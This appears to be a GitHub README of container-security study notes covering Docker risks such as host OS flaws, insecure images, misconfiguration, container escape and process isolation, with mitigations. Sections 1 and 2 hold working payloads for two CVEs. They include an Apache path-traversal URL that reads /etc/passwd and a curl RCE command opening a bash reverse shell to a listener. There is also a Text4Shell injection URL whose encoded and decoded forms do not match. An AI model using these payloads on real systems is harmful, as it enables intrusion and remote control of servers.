 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
  
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
  
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>

<details> 
<summary> 3: Insecure Container Configurations </summary>
  
- Misconfigurations may lead to disclose of sensitive date.
- Resolution: Implementation security measures like runtime security amd configuration management.
- Best practises: Implementation of Network segmentation, process isolation and orchestratrion (like kubernetes have default security measures)
- Best Practises: Add necessary access / remove unnecessary access like below examples:
drops capability to modify time -- ``` docker run --cap-drop=SYS_TIME -d my-image ```
Adds Network Bind Service -- ``` docker run --cap-add=NET_BIND_SERVICE -d my-image ```
- Conduct security assessments.
  
### Example: 
- We can set environment variables in Docker file. Setting credentails as Environment variables may disclose them.
</details>


<details> 
<summary> 4: Container Escape Vulnerabilities </summary>
  
- This can gain access to host system.
- - option like --privileged may give access to all host systems. It is the same as executing a process with root privileges on the host machine.
``` docker run --privileged -it --name my-container my-image ```
- Resolution: Implementation security measures like runtime security and process isolation
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Best Practises: Keep containers updated.
- Conduct security assessments.

</details>

<details> 
<summary> 5: Inadequate Process Isolation </summary>
  
- Process running in different conmtainers may interact with each other. 
- This can lead to cross container compromise and data breaches.
- Resolution: Implementation process isolation through Namespace isolation (It Isolates Network, File system) and cgroups (Helps to limit resources that container can consume like CPU, memory, I/O)
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --pid when starting the container. Process runnin gunder the pid cannot access process on host system. 
``` docker run --pid=container -d my-image ```
- Limit CPU usage when starting container.
``` docker run --cpu-share=512 --memory=512m --memory-swap=1g -d my-image ```  

### Cross Container Compromise with SYS_PTRACE capability
- SYS_PTRACE is a linux kernal process / capability which traces and debugs other process. It can reads / modifies memory, registry and extract sensitive data.

</details>
